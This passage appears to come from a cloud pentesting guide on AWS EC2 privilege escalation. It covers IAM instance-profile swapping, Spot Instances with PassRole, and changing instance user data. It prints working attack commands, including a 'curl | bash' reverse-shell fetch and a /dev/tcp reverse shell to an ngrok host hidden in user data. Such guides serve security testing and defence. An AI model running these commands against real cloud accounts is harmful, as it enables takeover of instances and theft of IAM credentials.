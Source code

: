 * or **replace** the **instance profile** of the compromised instance (`ec2:ReplaceIamInstanceProfileAssociation`). \*

{% code overflow="wrap" %}
````
```bash
aws ec2 replace-iam-instance-profile-association --iam-instance-profile Name=<value> --association-id <value>
```
````
{% endcode %}

**Potential Impact:** Direct privesc to a different EC2 role (you need to have compromised a AWS EC2 instance and some extra permission or specific instance profile status).

### `ec2:RequestSpotInstances`,`iam:PassRole`

An attacker with the permissions **`ec2:RequestSpotInstances`and`iam:PassRole`** can **request** a **Spot Instance** with an **EC2 Role attached** and a **rev shell** in the **user data**.\
Once the instance is run, he can **steal the IAM role**.

{% code overflow="wrap" %}
```bash
REV=$(printf '#!/bin/bash
curl https://reverse-shell.sh/2.tcp.ngrok.io:14510 | bash
' | base64)

aws ec2 request-spot-instances \
   --instance-count 1 \
   --launch-specification "{\"IamInstanceProfile\":{\"Name\":\"EC2-CloudWatch-Agent-Role\"}, \"InstanceType\": \"t2.micro\", \"UserData\":\"$REV\", \"ImageId\": \"ami-0c1bc246476a5572b\"}"
```
{% endcode %}

### `ec2:ModifyInstanceAttribute`

An attacker with the **`ec2:ModifyInstanceAttribute`** can modify the instances attributes. Among them, he can **change the user data**, which implies that he can make the instance **run arbitrary data.** Which can be used to get a **rev shell to the EC2 instance**.

Note that the attributes can only be **modified while the instance is stopped**, so the **permissions** **`ec2:StopInstances`** and **`ec2:StartInstances`**.

```bash
TEXT='Content-Type: multipart/mixed; boundary="//"
MIME-Version: 1.0

--//
Content-Type: text/cloud-config; charset="us-ascii"
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit
Content-Disposition: attachment; filename="cloud-config.txt"

#cloud-config
cloud_final_modules:
- [scripts-user, always]

--//
Content-Type: text/x-shellscript; charset="us-ascii"
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit
Content-Disposition: attachment; filename="userdata.txt"

#!/bin/bash
bash -i >& /dev/tcp/2.tcp.ngrok.io/14510 0>&1
--//'
TEXT_PATH="/tmp/text.b64.txt"

```